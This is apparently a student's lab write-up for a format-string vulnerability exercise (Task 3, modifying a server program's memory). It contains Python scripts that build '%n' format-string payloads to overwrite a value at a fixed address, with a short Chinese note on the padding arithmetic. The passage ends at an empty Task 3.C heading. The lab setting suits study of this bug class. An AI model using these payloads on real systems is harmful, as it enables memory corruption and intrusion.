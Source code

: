 ![image-20220216162614997](Format String.assets/image-20220216162614997.png)

## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value.

```python
#!/usr/bin/python3
import sys
 
# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))
 
# This line shows how to store an integer at offset 0
target_addr = 0x080e5068
content[0:4] = target_addr.to_bytes(4, byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8] = ("abcd").encode("latin-1")
 
# This line shows how to construct a string s with
# 12 of "%.8x", concatenated with a "%s"
s = "%.8x"*63 + "%n"
 
# The line shows how to store the string s at offset 8
fmt = (s).encode("latin-1")
content[8:8+len(fmt)] = fmt
 
# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()

```

![image-20220216173448121](Format String.assets/image-20220216173448121.png)

### Task 3.B: Change the value to 0x5000

上一步将值设为0x200，还剩余0x5000-0x200=19968，加上原来的8个字符，共19976个。

```python
[...]
s = "%.8x"*62 + "%.19976x" + "%n"
[...]
```



![image-20220216174129328](Format String.assets/image-20220216174129328.png)

### Task 3.C: Change the value to 0xAABBCCDD
